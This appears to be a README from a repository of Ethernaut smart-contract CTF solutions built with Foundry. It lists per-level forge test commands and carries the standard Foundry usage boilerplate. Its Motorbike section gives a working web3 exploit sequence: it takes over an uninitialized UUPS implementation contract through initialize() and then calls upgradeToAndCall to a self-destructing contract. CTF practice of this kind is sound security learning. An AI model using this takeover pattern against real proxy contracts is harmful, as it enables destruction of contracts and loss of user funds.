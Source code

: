 ```shell
forge test --match-path ./test/Fallback.t.sol
forge test --match-path ./test/Fallout.t.sol
forge test --match-path ./test/CoinFlip.t.sol
forge test --match-path ./test/Telephone.t.sol
forge test --match-path ./test/Token.t.sol
forge test --match-path ./test/Delegation.t.sol
forge test --match-path ./test/Force.t.sol
forge test --match-path ./test/Vault.t.sol
forge test --match-path ./test/King.t.sol
forge test --match-path ./test/Reentrancy.t.sol
forge test --match-path ./test/Elevator.t.sol
forge test --match-path ./test/Privacy.t.sol
forge test --match-path ./test/GatekeeperOne.t.sol
forge test --match-path ./test/GatekeeperTwo.t.sol
forge test --match-path ./test/NaughtCoin.t.sol
forge test --match-path ./test/Preservation.t.sol
forge test --match-path ./test/Recovery.t.sol
forge test --match-path ./test/MagicNumber.t.sol
forge test --match-path ./test/AlienCodex.t.sol
forge test --match-path ./test/Denial.t.sol
forge test --match-path ./test/Shop.t.sol
forge test --match-path ./test/Dex.t.sol
forge test --match-path ./test/DexTwo.t.sol
forge test --match-path ./test/PuzzleWallet.t.sol
forge test --match-path ./test/Motorbike.t.sol
forge test --match-path ./test/DoubleEntryPoint.t.sol
forge test --match-path ./test/GoodSamaritan.t.sol
forge test --match-path ./test/GatekeeperThree.t.sol
forge test --match-path ./test/Switch.t.sol

forge script script/MotorbikeDeploy.s.sol --rpc-url $RPC_URL_LOCAL --broadcast
forge script script/MotorbikeInteract.s.sol --rpc-url $RPC_URL_LOCAL --broadcast

forge install OpenZeppelin/openzeppelin-contracts@v3.4.2 --no-commit (solidity 0.6)
forge install OpenZeppelin/openzeppelin-contracts@v4.8.2 --no-commit (solidity 0.6)
```

Motorbike web 实现(sepolia 网络)

```
获取当前逻辑合约的地址
await web3.eth.getStorageAt(contract.address, "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc")

0x000000000000000000000000e414f6cb24cf364877fa306b3e488f3204650721
返回的值将为 32 个字节，其中最右边的 20 个字节将是地址。梳理一下，并在其左侧附加 0x。
我们得到 0xe414f6cb24cf364877fa306b3e488f3204650721

let initializeCall = web3.eth.abi.encodeFunctionSignature("initialize()")
let implAddr = "0xe414f6cb24cf364877fa306b3e488f3204650721"
await web3.eth.sendTransaction({from: player, to: implAddr, data: initializeCall})

remix 部署 Destructive
0x788d8efa489aD7f32cA96e2B8e4d4d2aBac0B168

let kill = web3.eth.abi.encodeFunctionSignature("killed()")
let callStr = web3.eth.abi.encodeFunctionCall({ name: 'upgradeToAndCall', type: 'function', inputs: [{ type: 'address', name: 'newImplementation' },{ type: 'bytes', name: 'data' }]}, ["0x788d8efa489aD7f32cA96e2B8e4d4d2aBac0B168",kill]);

await web3.eth.sendTransaction({from: player, to: implAddr, data: callStr})
```

## Foundry

**Foundry is a blazing fast, portable and modular toolkit for Ethereum application development written in Rust.**

Foundry consists of:

-   **Forge**: Ethereum testing framework (like Truffle, Hardhat and DappTools).
-   **Cast**: Swiss army knife for interacting with EVM smart contracts, sending transactions and getting chain data.
-   **Anvil**: Local Ethereum node, akin to Ganache, Hardhat Network.
-   **Chisel**: Fast, utilitarian, and verbose solidity REPL.

## Documentation

https://book.getfoundry.sh/

## Usage

### Build

```shell
$ forge build
```

### Test

```shell
$ forge test
```

### Format

```shell
$ forge fmt
```

### Gas Snapshots

```shell
$ forge snapshot
```

### Anvil

```shell
$ anvil
```

### Deploy

```shell
$ forge script script/Counter.s.sol:CounterScript --rpc-url <your_rpc_url> --private-key <your_private_key>
```

### Cast

```shell
$ cast <subcommand>
```

### Help

```shell
$ forge --help
$ anvil --help
$ cast --help
```

